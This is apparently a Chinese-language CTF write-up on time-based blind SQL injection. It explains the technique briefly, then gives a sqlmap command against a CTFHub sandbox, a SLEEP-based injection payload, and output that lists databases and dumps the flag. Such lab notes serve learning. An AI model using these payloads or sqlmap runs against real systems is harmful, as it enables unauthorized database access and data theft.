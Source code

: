 ```yaml
---
title: 时间盲注
date: 2024-11-23T17:24:33Z
lastmod: 2024-11-23T18:11:55Z
---
```


# 时间盲注

### 时间盲注简介

时间盲注又称延迟注入，个人理解，适用于==页面不会返回错误信息，只会回显一种界面==，其主要特征是==利用sleep函数，制造时间延迟，由回显时间来判断是否报错==。  
官方理解：**利用sleep()或benchmark()等函数让mysql执行时间变长经常与if(expr1,expr2,expr3)语句结合使用，通过页面的响应时间来判断条件是否正确。if(expr1,expr2,expr3)含义是如果expr1是True,则返回expr2,否则返回expr3。**

```shell
 sqlmap -u "http://challenge-1715702b3e026ca9.sandbox.ctfhub.com:10800/?id=1"  
```

```shell
---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 9203 FROM (SELECT(SLEEP(5)))WNiH)
---
```

```shell
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] sqli
```

```shell
Database: sqli
[2 tables]
+------+
| flag |
| news |
+------+

```

```shell
Database: sqli
Table: flag
[1 column]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| flag   | varchar(100) |
+--------+--------------+
```

```shell
Database: sqli
Table: flag
[1 entry]
+----------------------------------+
| flag                             |
+----------------------------------+
| ctfhub{db50ceb57b14564b0aba5db0} |
+----------------------------------+
```
